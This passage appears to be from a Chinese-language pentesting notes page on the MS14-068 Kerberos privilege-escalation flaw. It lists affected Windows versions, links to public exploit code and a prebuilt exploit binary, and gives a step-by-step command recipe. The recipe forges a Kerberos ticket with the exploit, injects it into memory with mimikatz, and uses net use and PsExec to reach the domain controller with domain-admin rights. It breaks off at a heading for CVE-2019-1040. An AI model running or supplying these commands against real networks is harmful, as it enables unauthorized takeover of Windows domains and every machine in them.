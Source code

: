 - 影响版本
    - Windows 7 SP1
    - Windows 8.1
    - Windows RT 8.1
    - windows vista
    - Windows Server 2003 SP2
    - Windows Server 2008 SP2
    - Windows Server 2008 R2 SP1
    - Windows Server 2012
    - Windows Server 2012 R2

- 相关文章
    - [MS14-068域权限提升漏洞总结](https://xz.aliyun.com/t/218)

- POC | Payload | exp
    - [windows-kernel-exploits/MS14-068/](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS14-068)
    - [abatchy17/WindowsExploits/blob/master/MS14-068/MS14-068.exe](https://github.com/abatchy17/WindowsExploits/blob/master/MS14-068/MS14-068.exe)

        登录普通域用户 whoami/user 获取 sid

        退出域用户，登录本地用户
        ```bash
        MS14-068.exe -u test@test.org -s S-1-5-21-1218902331-2157346161-1782232778-1124 -d 192.168.1.1 -p Admin123

        # -u 域账号+@+域名称
        # -s 为 ts1 的 SID 值，可以通过 whoami/all 来获取用户的 SID 值
        # -d 为当前域的域控
        # -p 为当前用户的密码，即 ts1 的密码
        ```
        接下来将导出生成一张 kerberos 票据，配合 mimikatz 的 ptt 功能，将票据导入到内存中

        使用 mimikatz 将票据注入到当前内存中，伪造凭证，如果成功则拥有域管理权限，可任意访问域中所有机器
        ```bash
        kerberos::purge                 # 清空当前机器中所有凭证，如果有域成员凭证会影响凭证伪造
        kerberos::list                  # 查看当前机器凭证
        kerberos::ptc [ccachefile]      # 将票据注入到内存中

        可以使用 net use \\域控名\C$ 尝试访问域控

        也能执行 psexec
        PsExec64.exe -accepteula \\域控名 -s cmd /c "whoami /all"
        ```

**CVE-2019-1040 Windows NTLM 篡改漏洞**

- 简介

